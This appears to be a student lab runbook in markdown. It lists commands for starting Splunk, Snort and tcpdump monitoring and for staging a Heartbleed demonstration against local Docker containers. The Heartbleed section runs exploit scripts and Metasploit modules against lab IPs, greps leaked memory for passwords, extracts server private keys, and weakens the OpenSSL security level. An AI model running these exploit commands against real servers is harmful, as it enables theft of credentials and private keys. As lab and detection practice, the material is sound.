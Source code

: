 ## splunk server start

<!-- sudo /home/etudiant/splunk/bin/splunk restart  -->
sudo /home/etudiant/splunk/bin/splunk start 


## splunk UF start : FW

sudo /opt/splunkforwarder/bin/splunk restart 
sudo /opt/splunkforwarder/bin/splunk stop 


<!-- <<< vitrygtr -->

###### troubleshoot tcadump
ps -aux | grep tcpdump
sudo systemctl stop tcpdump 
sudo systemctl start tcpdump
sudo systemctl status tcpdump

sudo crontab -e  
sudo crontab -l  



## launching dashboards

- home page
http://splunk:8000/fr-FR/app/launcher/home

- splunk license
http://splunk:8000/fr-FR/manager/system/licensing


- TOP DNS QUERIES
http://splunk:8000/fr-FR/app/DNS_Insight/top_queries?earliest=-2m&latest=now&form.src=*&form.dest=*




- snort logs

http://splunk:8000/fr-FR/app/SplunkforSnort/event_search

- snort logs : rapport
- top 10 des signatures :
http://splunk:8000/fr-FR/app/SplunkforSnort/report?s=%2FservicesNS%2Fnobody%2FSplunkforSnort%2Fsaved%2Fsearches%2FTop%252010%2520signatures&sid=admin__nobody__SplunkforSnort__RMD5bd4c9c15bd2e7f88_at_1627208547_2&display.page.search.mode=smart&dispatch.sample_ratio=1&q=search%20sourcetype%3D%22snort%22%20%7C%20top%2010%20name%20%7C%20fields%20-%20percent&earliest=&latest=&display.general.type=statistics

- top 10 des classifications :

http://splunk:8000/fr-FR/app/SplunkforSnort/report?s=%2FservicesNS%2Fnobody%2FSplunkforSnort%2Fsaved%2Fsearches%2FTop%252010%2520classifications&sid=admin__nobody__SplunkforSnort__RMD5b624049bf7eb4301_at_1627208572_3&display.page.search.mode=smart&dispatch.sample_ratio=1&earliest=&latest=&display.general.type=statistics

- top 10 des adresses ip de destination :

http://splunk:8000/fr-FR/app/SplunkforSnort/report?s=%2FservicesNS%2Fnobody%2FSplunkforSnort%2Fsaved%2Fsearches%2FTop%252010%2520destination%2520IPs&sid=admin__nobody__SplunkforSnort__RMD53294bb425a414a5f_at_1627208593_4&display.page.search.mode=smart&dispatch.sample_ratio=1&earliest=&latest=&display.general.type=statistics



- top 10 des adresses ports de destination :


http://splunk:8000/fr-FR/app/SplunkforSnort/report?s=%2FservicesNS%2Fnobody%2FSplunkforSnort%2Fsaved%2Fsearches%2FTop%252010%2520destination%2520ports&sid=admin__nobody__SplunkforSnort__RMD582a572f9f3640ec7_at_1627208633_6&display.page.search.mode=smart&dispatch.sample_ratio=1&earliest=&latest=&display.general.type=statistics


- top 10 des adresses ports source :
http://splunk:8000/fr-FR/app/SplunkforSnort/report?s=%2FservicesNS%2Fnobody%2FSplunkforSnort%2Fsaved%2Fsearches%2FTop%252010%2520source%2520ports&sid=admin__nobody__SplunkforSnort__RMD5009e39aba4ac03b0_at_1627208619_5&display.page.search.mode=smart&dispatch.sample_ratio=1&q=search%20sourcetype%3D%22snort%22%20%7C%20top%2010%20src_port&earliest=&latest=&display.general.type=statistics



- dns insight
http://splunk:8000/fr-FR/app/DNS_Insight/overview?earliest=-30m&latest=now&form.src=*&form.dest=*

## launching snort
<!-- sudo /usr/sbin/snort -A console -i enp0s3 -u snort -c /etc/snort/snort.conf -A full   -->
sudo /usr/sbin/snort -A fast -i enp0s3 -u snort -c /etc/snort/snort.conf 

## launching exploit
à la fois relativement petit et grand


## heartbleed exploit

##### vulnerable server part :
<!-- sudo /home/etudiant/heartbleed-automation/bash/heartbleed-vulnerable-server.sh -->

cd /home/etudiant/heartbleed-automation/bash/heartbleed-example/
sudo docker-compose up -d



##### injection server -- simulate client request
cd /home/etudiant/heartbleed-example 
python stimulate_server.py -a 192.168.1.49



##### pentest server
# execute file
cd /home/etudiant/heartbleed-example
<!-- watch  -->
<!-- sudo python heartbleed.py 192.168.1.49 -p 443 -n 1150 -->
sudo python heartbleed.py 192.168.1.49 -p 443 -n 1150 > /home/etudiant/reject_exploit.log
cat -n /home/etudiant/reject_exploit.log | grep assword | cat -n


################ + d'information décodée
cd /home/etudiant/heartbleed-automation/python/

sudo python exploit.py 192.168.1.49 -p 443 


<!-- watch -n 1 sudo python exploit.py 192.168.1.49 -p 443  
watch -n 1 sudo python /home/etudiant/heartbleed-automation/python/exploit.py 192.168.1.49 -p 443   -->





##### pentest server -- exploit via metasploit
<!-- sudo /home/etudiant/heartbleed-automation/bash/msf/metasploit_heartbleed.sh -->
sudo /home/etudiant/heartbleed-automation/bash/msf/metasploit_heartbleed_loop.sh










#

## dont know





##### vulnerable server part :

<!-- sudo chmod +x ./bash/heartbleed-vulnerable-server.sh && sudo ./bash/heartbleed-vulnerable-server.sh -->


##### injection server -- simulate client request
sudo apt-get update -y && sudo apt-get install -y git python && git clone https://github.com/amineAUPEC/heartbleed-automation.git && cd heartbleed-automation/
cd /home/etudiant && git clone https://github.com/injcristianrojas/heartbleed-example.git
sudo sed -E -i 's/CipherString = DEFAULT@SECLEVEL=2/CipherString = DEFAULT@SECLEVEL=1/' /etc/ssl/openssl.cnf

################ + d'information décodée
cd /home/etudiant/heartbleed-automation/python/ && chmod +x exploit.python
watch -n 1 sudo python exploit.py 192.168.1.173 -p 443  

##### pentest server
cd /home/etudiant/heartbleed-automation/ 



#### set IP
nano ./conffiles/hostlist.txt 
<!-- && nano ./bash/heartbleed-vulnerable-pentest.sh -->
## execute file
<!-- sudo ./bash/heartbleed-vulnerable-pentest.sh -->


##### vulnerable server via BWAPP Docker container
sudo hostnamectl set-hostname bwapp
sudo chmod +x ./bash/install-docker.sh && sudo ./bash/install-docker.sh
sudo docker run -d -p 80:80 -p 8443:8443 raesene/bwapp && ip a



##### exploit via metasploit for private KEYS

cd /home/etudiant/heartbleed-automation/bash/msf/ && sudo chmod +x metasploit_heartbleed_keys.sh && sudo ./metasploit_heartbleed_keys.sh

- verify on server:
  - connect to the container
   dockerps_id=$(sudo docker ps | grep heartbleed | tr -s ' ' | cut -f 1 -d ' ') 
   dockerps_id=$(sudo docker exec -it $dockerps_id bash) 

watch /etc/apache2/ssl/apache.key

watch 'cat /etc/apache2/ssl/apache.key; cat /etc/apache2/ssl/apache.crt'


##### exploit via metasploit

sudo apt-get update -y && sudo apt-get install -y git && git clone https://github.com/amineAUPEC/heartbleed-automation.git 

cd /home/etudiant/heartbleed-automation/bash/msf/ && sudo chmod +x metasploit_heartbleed.sh
## LIST OF OPTIONS for COMMANDS SPLUNK

earliest=-15m 

####  LIST OF COMMANDS SPLUNK
tcpdump
* host=firewall sourcetype="port53tttt" source="/var/log/tcpdump.log"
tcpdump DNS 
* host=firewall sourcetype="port53tttt" source="/var/log/tcpdump.log" *.53


tcpdump PORT 80 HTTP
* host=firewall sourcetype="port53tttt" source="/var/log/tcpdump.log" *.80
tcpdump PORT 443 HTTPS
* host=firewall sourcetype="port53tttt" source="/var/log/tcpdump.log" *.443
tcpdump HTTPS IPV6 UDP
* host=firewall sourcetype="port53tttt" source="/var/log/tcpdump.log" UDP
* 
tcpdump HTTPS IPV6 TCP  Win ack
* host=firewall sourcetype="port53tttt" source="/var/log/tcpdump.log" win OR ack

DNS QUERY
* sourcetype=tshark:port53 OR sourcetype=port53tttt src=* dest=*| fields dns_len query length reply_code Len message_type record_type transport | search message_type=QUERY 
| table *